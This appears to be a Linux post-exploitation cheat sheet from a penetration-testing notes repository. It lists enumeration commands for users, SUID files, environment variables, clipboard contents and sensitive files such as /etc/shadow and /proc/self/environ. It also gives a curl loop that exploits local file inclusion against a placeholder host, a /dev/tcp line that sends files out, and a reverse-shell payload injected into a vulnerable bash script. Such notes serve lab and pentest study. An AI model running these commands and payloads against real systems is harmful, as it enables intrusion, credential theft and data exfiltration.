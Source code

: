 # Enumeration
## Commands
```bash
# SUDO CONFIG
sudo -l

# CURRENT USER INFO
id || (whoami && groups) 2>/dev/null
## Current user PGP keys
gpg --list-keys 2>/dev/null


# ALL USERS
## List superusers
awk -F: '($3 == "0") {print}' /etc/passwd

## List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort

## Logged in users
w


# SYSTEM INFO
## Running processes
ps aux

## Environment variables
(env || set) 2>/dev/null

## Network topology
cat /proc/net/fib_trie

## Domain name
hostname

## OS info
/etc/os-release


# FILES AND DIRECTORIES
## Sort files by date
ls -ltrh

## Writeable folders
find / -writable -type d 2>/dev/null

## Find SUID files
find / -perm -4000 2>/dev/null


# NETWORK
## List open ports
(netstat -punta || ss --ntpu)


# MISC
## Human readable JSON data (jq)
cat <json_file> | jq

## Download file from shell session
cat <file> /dev/tcp/<ip>/<port>

## PING SWEEP - If one suspects that there are other machines on the network --- Assuming that current machine is in a VM or a container
for i in {1..254}; do (ping -c 1 10.10.10.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

## Directories / Files
```bash
~/
/tmp

/dev/shm

/opt

/var
/var/log
/var/www/html

/usr/sbin

/etc/apache2 
/etc/httpd
/etc/nginx

/etc/hosts
/etc/issue
/etc/motd
/etc/passwd 
/etc/group 
/etc/resolv.conf
/etc/shadow

/home/USERNAME/.bash_history
/home/USERNAME/.profile

/proc/sched_debug
/proc/net/fib_trie
/proc/version
/proc/self/environ
/proc/self/cmdline
```

## Process File (PID) Brute-force
The file “/proc//cmdline” serves as a repository for the command-line arguments that have been provided to a specific process identified by its (PID). 
This allows for enumerating all the running processes based on their PID.     
This could be well used for exploiting an LFI.

```bash
# Example script to exploit LFI
for i in {0..999}; do
    pid=$i
    url="http://remote.com/?page=../../../..//proc/$pid/cmdline"
    curl -s "$url" | tee -a log.txt
    echo ""
done
```

## Directory / File Copy (symlink)
If there's a directory or a file that is being copied *(by some program, perhaps cron)*, one can either create a symlink or a direct spoof of the actual file so, that the copied item will be spoofed and contain the data the attacker wants.


# Clipboard
Look for anything interesting in the clipboard
```bash
if [ `which xclip 2>/dev/null` ]; then
    echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
    echo "Highlighted text: "`xclip -o 2>/dev/null`
  elif [ `which xsel 2>/dev/null` ]; then
    echo "Clipboard: "`xsel -ob 2>/dev/null`
    echo "Highlighted text: "`xsel -o 2>/dev/null`
  else echo "Not found xsel and xclip"
  fi
```

# Interesting Groups
## disk
A user who is in the disk group, will probably have access to info on a given disk.

## debugfs
`debugfs` let's you debug a file system if you can read the device.       
With this, one can read files owned by a given user


# Bash File Command Execution
If a file executes a variable, one might be able to write payload to it.
## Example
**(program.sh)**
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
The attacker can supply the following payload:
```
./program.sh '>& /dev/tcp/<IP>/<PORT> 0>&1'
```

# Services
[gtfobins help](https://gtfobins.github.io/gtfobins/systemctl/)

A service is defined by a `.service` file. `systemctl` is used to link it to `systemd` and then used again to start the service.      
What the service does is defined by the `.service` file.     

If a user has access to the `systemctl` binary they can make a service which can read file or even spawn a reverse shell.


# Raw Image File Conversion to Actual Image
Raw image data can be converted to an actual image to reveal its content.
## Gimp
1. Select the file and its type (Raw image data)
2. Select resolution (`cat /sys/class/graphics/fb0/virtual_size` if unknown)
3. Edit image types
4. Export as png